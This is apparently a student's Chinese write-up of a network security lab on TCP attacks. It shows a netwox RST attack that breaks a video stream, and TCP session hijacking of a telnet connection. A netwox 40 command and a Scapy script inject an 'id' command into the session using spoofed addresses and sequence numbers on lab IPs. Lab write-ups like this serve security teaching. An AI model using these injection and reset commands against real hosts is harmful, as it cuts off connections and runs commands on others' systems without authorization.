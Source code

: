 ![image-20201108133448221](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108133448221.png)

`ssh`同理，修改端口号和`seq`即可



### Task 3: TCP RST Attacks on Video Streaming Applications

由于`seedubuntu`无法打开视频（没有`flash`插件），所以使用`attacker`同时作为攻击机和受害机

在`attacker`上，访问`www.bilibili.com`并随便打开一个`视频/直播`

正常播放时，运行`sudo netwox 78 --ips 192.168.2.178`，观察到界面处于缓冲阶段，此时的`tcp`通信已经被切断

![image-20201108135431012](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108135431012.png)

![image-20201108135558070](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108135558070.png)



### Task 4: TCP Session Hijacking

#### `use telnet`

首先，建立`client`与`server`的`telnet`通信

![image-20201108135711625](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108135711625.png)

捕获到的流量包

![image-20201108135818392](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108135818392.png)

拿到`ip port seq ack`

然后使用`netwox 40`进行`tcp`会话劫持

`sudo netwox 40 --ip4-src 192.168.2.191 --ip4-dst 192.168.2.189 --ip4-ttl 2 --tcp-src 43914 --tcp-dst 23 --tcp-seqnum 1465897838 --tcp-window 237 --tcp-acknum 3184009102 --tcp-ack --tcp-data "69640d0a"`

指令的内容是`id`发送之后

![image-20201108143123688](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108143123688.png)

响应包

![image-20201108143140690](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108143140690.png)

确实执行了命令

#### `use scapy`

操作差不多

```python
from scapy.all import *

ip = IP(src="192.168.2.191", dst="192.168.2.189")
tcp = TCP(sport=43920, dport=23, flags=0x010, seq=995168334, ack=956698426)
data = "id\x0d\x0a"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)

```
